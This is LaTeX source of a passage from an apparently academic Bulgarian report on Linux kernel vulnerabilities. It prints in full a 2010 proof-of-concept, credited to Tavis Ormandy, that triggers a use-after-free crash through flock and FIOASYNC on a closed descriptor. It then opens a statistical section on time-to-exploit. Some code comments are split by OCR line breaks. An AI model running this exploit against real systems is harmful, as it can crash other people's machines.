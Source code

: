 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Exploit}
\paragraph{}
Примерен exploit е публикуван от Тавис Орманди(2010-01-14).
\paragraph{}
Exploit-ът използва модифициран указател от потребителската памет, като 
целта е да предизвика забиване.
\begin{verbatim}
int main(int argc, char **argv)
{
    int fd;
    pid_t child;
    unsigned flag = ~0;
    fd = open("/dev/urandom", O_RDONLY);
// установяване на екслузивно заключване без блокиране 
flock(fd, LOCK_EX | LOCK_NB);
    // вдигане на ASYNC флага на дескриптора
    ioctl(fd, FIOASYNC, &flag);
    // затваряне на файловия дескриптор, за да се предизвика проблема
    close(fd);
    // извършване на операции с цел да се запълни AT_RANDOM, което ще 
предизвика използването на освободеният файл
    // Предполага се, че /bin/true е elf executable4
 и че ядрото 
поддържа AT_RANDOM.
    do switch (child = fork()) {
            case  0: execl("/bin/true", "/bin/true", NULL);
                     abort();
            case -1: fprintf(stderr, "fork() failed, %m\n");
                     break;
            default: fprintf(stderr, ".");
                                 break;
    } while (waitpid(child, NULL, 0) != -1);
    fprintf(stderr, "waitpid() failed, %m\n");
    return 1;}
\end{verbatim}

\newpage
\part{Статистически анализ}
\setcounter{section}{0}
\section{Статистически анализ на времето за излизане на exploit за намерените проблеми}
\paragraph{}
На хистограмата по-долу по оста X е разликата в дни между датата на излизане на екслойт и датата на придобиване на публичност на проблема.Вижда се за колко време най-често е излизал exploit. Някои exploit-и обаче са излезли преди да се даде публичност на проблема, други излизат доста време след като преоблемът вече е на лице, а даже и след като вече е решен.
\end{document}
